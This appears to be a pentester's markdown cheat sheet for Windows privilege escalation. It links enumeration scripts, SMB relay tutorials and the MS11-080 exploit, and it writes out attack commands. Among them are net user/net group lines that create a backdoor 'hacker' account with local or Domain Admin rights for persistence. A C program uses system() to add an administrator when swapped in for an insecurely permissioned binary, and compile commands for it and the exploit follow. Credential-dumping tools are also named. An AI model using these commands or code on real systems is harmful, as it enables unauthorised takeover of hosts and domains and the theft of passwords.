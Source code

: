 ## Privilege escalation - Generic
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite 
-> linpeas
-> winpeas

## SMB RELAY - Windows

https://intrinium.com/smb-relay-attack-tutorial/

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html


## Privilege escalation - Windows


Adding persistence:
```
net user hacker Hacker123! /add

net localgroup administrators hacker /add

net localgroup "Remote Desktop Users" hacker /add



# WINDOWS: Add domain user and put them in Domain Admins group
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN

# WINDOWS: Add local user and put them local Administrators group
net user username password /ADD
net localgroup Administrators username /ADD
```
## Verify missing patch
https://github.com/rasta-mouse/Sherlock.git

### Exploits
* MS11-080 - Windows XP, Windows 2003 Adf.sys 
	* http://www.exploit-db.com/exploits/18176/ MS11-080
		* ``` python pyinstaller.py --onefile ms11-080.py ```
### Misconfiguration
* icalcs
	* detects insecure permissions
		* ```icalcs binary-name.exe```
```C 
// file useradd.c
#include <stdlib.h>
 /* system, NULL, EXIT_FAILURE */
int main ()
{
	int i;
	i = system ("net localgroup administrators low /add");
	return 0;
}
```
		* ```i686-w64-mingw32-gcc -o filename.exe useradd.c ```
* fgdump.exe / pwdump.exe
	* A utility for dumping passwords on Windows NT/2000/XP/2003 machines 
	* https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump
* Windows Credential Editor (WCE)
	* obtain cleartext passwords and hashes from a compromised Windows host